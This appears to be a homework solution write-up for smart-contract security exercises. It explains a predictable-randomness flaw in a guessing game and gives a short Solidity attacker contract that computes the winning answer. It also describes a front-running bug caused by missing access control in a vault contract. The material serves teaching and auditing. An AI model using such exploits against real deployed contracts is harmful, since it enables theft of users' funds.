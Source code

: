 # HW4 Solution
## Task 1: Game

### Description
`Game.sol` is a game where you win ether by guessing the correct number. 
When playing, you input a random number and specify the address to receive the prize.

Write your solution in `GameAttack.sol, Game.t.sol`, without modifying other code.  
Try to pass the tests in `GameBaseTest.t.sol`.

### Solution 
Since this contract uses the blockhash of the previous block and block.timestamp as parameters for randomness, it is vulnerable to predictable randomness attacks. These values are publicly accessible and can be manipulated to some extent, making it possible for an attacker to predict the answer. This predictability undermines the fairness of the game and allows attackers to gain an unfair advantage.

An attacker can easily predict the answer and always win the game by calling the attack function.
``` solidity
pragma solidity >=0.8.0 <0.9.0;
contract Attacker {
    Game game;

    receive() external payable {}

    constructor(Game _guessTheRandomNumber) payable {
        game = _guessTheRandomNumber;
    }

    function attack() public {
        // attacker just put the answer into input to win the game
        uint256 answer = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
        game.guess(answer, address(this));
    }
}
```

## Task 2: SimpleVault

### Description
`SimpleVault.sol` is a contract that manages withdrawal reserves, processes withdrawals through a proxy contract, and uses epochs for fund management.

Write your solution in `SimpleVault.t.sol`, without modifying other code.  
Try to pass the tests in `SimpleVaultBaseTest.t.sol`.

### Solution 
transferWithdrawReserve() lack of access control.
Any user can monitor when the owner is about to set the withdrawProxy for a specific epoch and front-run by calling transferWithdrawReserve() beforehand, causing the withdrawReserve to be reduced or set to zero.

### Additional
Task 2 modified from [here](https://github.com/sherlock-audit/2022-10-astaria-judging/issues/163), retaining the root cause.